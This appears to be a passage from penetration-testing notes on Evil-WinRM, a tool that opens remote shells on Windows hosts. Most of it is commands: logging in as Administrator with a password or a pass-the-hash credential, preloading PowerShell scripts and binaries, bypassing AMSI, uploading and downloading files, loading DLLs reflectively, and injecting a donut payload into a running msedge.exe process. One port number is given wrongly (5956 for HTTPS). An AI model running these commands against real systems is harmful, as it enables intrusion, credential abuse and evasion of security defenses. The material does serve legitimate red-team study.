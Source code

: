 To identify if the service is running you can look for the ports `5985` (HTTP) and `5956` (HTTPS) open on a windows host. 

```bash
# Installation
gem install evil-winrm

# General Usage
Evil-WinRM -i 0.0.0.0 -u Administrator -p 'password'

# PTH Usage
Evil-WinRM -i 0.0.0.0 -u Administrator -H [... hash ...]
```

Additionally you can have Evil-WinRM preload dotnet binaries as well as powershell scripts
```bash
Evil-Winrm -i 0.0.0.0 -u user -p pass -s /opt/powershellscripts/ -e /opt/binaries/
```

In-shell menu
```powershell
# will display tools or scripts available
menu

# execute binary from preloaded path (-e) 
Invoke-Binary /opt/binaries/binary.exe 

# you can hit TAB a few times to display the powershell scripts loaded with -s
<tab>
Invoke-PowerView.ps1 
# menu -> to display functions from loaded powershell script and call on them to run them.
Get-ADDomain -Domain domain.local

# tool to try to bypass amsi
Bypass-4MSI

# upload
upload /path/to/file

# download
download C:\path\to\file

# load dll (does  [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("selected.dll")) )
Dll-Loader /path/to/dll

# list out services that could be potentially vulnerable
services

# to directly run a donut created .bin file. see the donut section in AV evasion to generate payload
Donut-Loader -process_id (get-process msedge.exe).id -donutfile /path/to/donut-payload.bin
```

